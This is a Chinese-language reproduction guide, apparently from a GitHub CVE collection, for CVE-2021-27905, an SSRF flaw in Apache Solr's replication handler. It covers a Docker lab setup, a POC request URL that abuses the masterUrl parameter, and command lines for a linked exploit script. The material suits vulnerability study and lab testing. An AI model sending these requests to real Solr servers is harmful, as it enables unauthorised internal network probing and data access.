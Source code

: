 # CVE-2021-27905 Apache Solr 服务端请求伪造漏洞

## 漏洞概述
Apache Solr 8.8.2之前版本存在安全漏洞，Apache Solr 中的 ReplicationHandler（通常注册在 Solr core下的“/replication”）有一个“masterUrl”（也是“leaderUrl”别名）参数，用于指定另一个 Solr core上的另一个 ReplicationHandler 将索引数据复制到本地core。为了防止 SSRF 漏洞，Solr 应该根据它用于“shards”参数的类似配置检查这些参数。攻击者可利用该漏洞，传递特定参数，构造并执行服务端请求伪造，造成攻击者任意读取服务器上的文件，利用该漏洞可造成内网信息探测。

## 漏洞影响
Apache Solr < 8.8.2

## 环境搭建
漏洞环境
> https://github.com/errorecho/CVEs-Collection/tree/main/CVE-2021-27905/Env

运行漏洞环境
```
docker-compose up -d
```

访问`http://127.0.0.1:8983`，环境运行成功

![1628491925970.png](./img/1628491925970.png)

## 漏洞复现
### POC
```
http://your-ip:8983/solr/{core_name}/replication/?command=fetchindex&masterUrl={http://xxx}
```

### EXP
漏洞脚本
> https://github.com/errorecho/CVEs-Collection/tree/main/CVE-2021-27905/Exp/CVE-2021-27905.py

使用方法
```
python3 CVE-2021-27905.py -u target -d ip:port
python3 CVE-2021-27905.py -u http://192.168.21.166:32768 -d 192.168.21.166:7777
```

![1628492214561.png](./img/1628492214561.png)

![1628492242442.png](./img/1628492242442.png)

## 参考
> https://github.com/Henry4E36/Solr-SSRF